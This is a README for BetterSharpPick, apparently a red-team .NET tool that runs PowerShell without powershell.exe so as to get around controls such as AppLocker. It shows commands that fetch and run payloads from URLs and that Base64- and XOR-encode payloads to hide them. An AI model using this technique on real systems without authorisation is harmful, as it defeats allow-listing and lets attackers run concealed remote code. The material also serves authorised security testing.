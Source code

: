 # BetterSharpPick

BetterSharpPick is a .NET tool that runs PowerShell code **without calling `powershell.exe` directly**. It’s intended for legitimate security testing and blue/red team workflows in environments with restrictive policies (e.g., AppLocker).

> Legal & Ethical Use
> 
> 
> Use only on systems you own or are explicitly authorized to test. Unauthorized use is illegal. You are responsible for complying with all laws and policies.
> 

## Features

- Execute payloads from a **local file** or **URL** (`path`)
- Execute **inline PowerShell** (`c`)
- **Scoped Base64 decoding** with `b64` (applies only to the next option you put it in front of)
- **Single-byte XOR decoding for file/URL payloads only** (`xor <0-255>`)
- Optional TLS protocol configuration

## Build

```bash
dotnet build -c Release
# Use the produced exe (e.g., bin/Release/.../BetterSharpPick.exe)
```

## Usage

```bash
BetterSharpPick.exe [options]
```

### Options

- `path <path|url>`
    
    Path or URL of the PowerShell payload. If `-xor` is provided, XOR decoding is applied **only** to this file/URL content.
    
- `c <command>`
    
    Inline PowerShell code to execute.
    
- `-arg <string>`
    
    Argument(s) to pass through to the payload/command. Repeatable.
    
- `b64` *(scoped)*
    
    Indicates that the **next option’s value** is Base64-encoded and must be decoded.
    
    Put `-b64` **immediately before** each option whose value is Base64.
    
- `xor <0-255>`
    
    Single decimal byte key. **Applies only to `-path` payloads** (files/URLs). **Does not** apply to `-c` or `--arg`.
    

### Decoding rules

- **Scope of `b64`:**
    - `b64` affects **only the option right after it** (and that option’s single value).
    
    If you need multiple values decoded, repeat `-b64` before each one.
    
- **Scope of `xor`:**
    - `xor` affects **only** the payload read via `path` (file/URL). It does **not** touch `c` or `-arg`.
- **Order when both apply to `path`:**
    
    If you place `-b64` before `-path` **and** also supply `-xor`, decoding proceeds as: **Base64 decode → XOR decode** of the payload bytes.
    

## Examples (safe, illustrative)

Run a local payload:

```bash
BetterSharpPick.exe -path .\script.ps1
```

Run a payload from URL:

```bash
BetterSharpPick.exe -path https://example.com/payload.ps1
```

Run an inline command:

```bash
BetterSharpPick.exe -c "Get-Process | Select-Object -First 5"
```

Base64-encoded **inline** command (scope `-b64` to `-c`):

```bash
# "V3JpdGUtSG9zdCAnSGVsbG8gV29ybGQn" => Write-Host 'Hello World'
BetterSharpPick.exe -b64 -c V3JpdGUtSG9zdCAnSGVsbG8gV29ybGQn
```

Base64-encoded **argument** (scope `-b64` to each `--arg` you want decoded):

```bash
# --arg "Hello"  -> SGVsbG8=
# --arg "World!" -> V29ybGQh
BetterSharpPick.exe --arg PlainText -b64 --arg SGVsbG8= -b64 --arg V29ybGQh
```

Base64 on the **payload** + XOR on the **payload** (XOR applies only to `-path`):

```bash
# -b64 only scopes to -path; XOR applies to the decoded file/URL payload
BetterSharpPick.exe -xor 140 -b64 -path aHR0cHM6Ly9leGFtcGxlLmNvbS9wYXlsb2FkLnBzMQ==
```

No Base64 anywhere if `-b64` is not placed before an option:

```bash
BetterSharpPick.exe -path .\plain.ps1 --arg simple --arg values
```

## Built-in Help (CLI)

```
USAGE:
  BetterSharpPick [-xor <0-255>] [-path <file-or-url>] [-c <text>] [--arg <string>] [-b64]

DESCRIPTION:
  -path <value>   : Payload file path or URL.
  -c <value>      : Inline PowerShell code.
  -arg <string>  : Argument to pass (repeatable).

  -b64            : Scoped base64. Applies ONLY to the NEXT option’s value.
                    Put -b64 directly before -path, -c, or --arg if that value is base64-encoded.
                    If -b64 is not used in front of an option, no base64 is expected for that option.

  -xor <0-255>    : Single decimal byte key. Applies ONLY to payloads from -path (file/URL).
                    Does NOT apply to -c or --arg.
                    If used together with -b64 (scoped to -path), decoding order is: Base64 → XOR.

EXAMPLES:
  BetterSharpPick -path https://example.com/file.ps1
  BetterSharpPick -b64 -c V3JpdGUtSG9zdCAnSGVsbG8n
  BetterSharpPick -b64 --arg UGFyYW0x -b64 --arg UGFyYW0y
  BetterSharpPick -xor 140 -b64 -path aHR0cHM6Ly9leGFtcGxlLmNvbS9maWxlLnBzMQ==
```

## License

Released under the **BSD 3-Clause License**.

## Credits

Inspired by and adapted from [TheKevinWang/SharpPick](https://github.com/TheKevinWang/SharpPick).